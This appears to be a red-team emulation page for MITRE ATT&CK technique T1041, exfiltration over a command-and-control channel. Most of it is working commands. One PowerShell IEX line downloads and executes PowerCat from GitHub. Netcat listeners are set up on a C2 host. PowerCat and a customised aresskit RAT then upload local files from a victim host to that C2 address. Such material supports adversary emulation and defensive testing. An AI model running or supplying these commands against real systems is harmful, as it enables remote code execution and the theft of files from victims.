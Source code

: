 # Exfiltration Over Command and Control Channel

---
* **ID**: T1041
* **Source**: <https://attack.mitre.org/techniques/T1041/>
---

# Details

## Using `PowerCat`
* Load PowerCat in reverse shell:
```
powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
* Start a listener on C2 host:
```
nc -lvvp <listener-port-on-c2> > out.file
```
* Transfer local files to remote C2 host using `PowerCat`:
```
powercat -c <ip-of-c2> -p <listener-port-on-c2> -i <path-of-local-files>
```

## Using RAT
### Using customized `aresskit`
* [Deploy](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md) customized `aresskit` to victim host
* Transfer local files to C2 host:
  * Start a listener on C2 host:
  ```
  nc -lvvp <port_of_C2> > out.file
  ```
  * Transfer local files to remote host using `aresskit`:
  ```
  aresskit> FileHandler::uploadFileNew <path_of_local_file> <ip_of_C2> <port_of_C2>
  ```

# References

* <https://github.com/besimorhino/powercat>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md>
